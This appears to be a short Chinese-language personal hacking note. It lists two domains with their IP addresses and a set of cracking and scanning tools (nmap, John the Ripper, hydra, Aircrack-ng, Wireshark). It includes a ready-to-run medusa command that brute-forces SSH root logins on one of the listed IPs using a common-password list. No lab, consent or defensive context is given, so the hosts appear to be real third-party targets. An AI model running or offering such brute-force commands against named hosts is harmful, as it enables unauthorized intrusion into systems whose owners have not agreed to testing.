 # 黑客

- www.semorn.com  47.94.101.42
- jjlin.net 43.242.131.37

## 工具

- nmap 
- john the ripper https://www.openwall.com/john/
- thc-hydra 密码爆破

```
./medusa -u root -h 47.94.101.42 -P 10k-most-common.txt -M ssh -n 22
```
- Aircrack-ng wify破解工具 
- Wireshark 抓包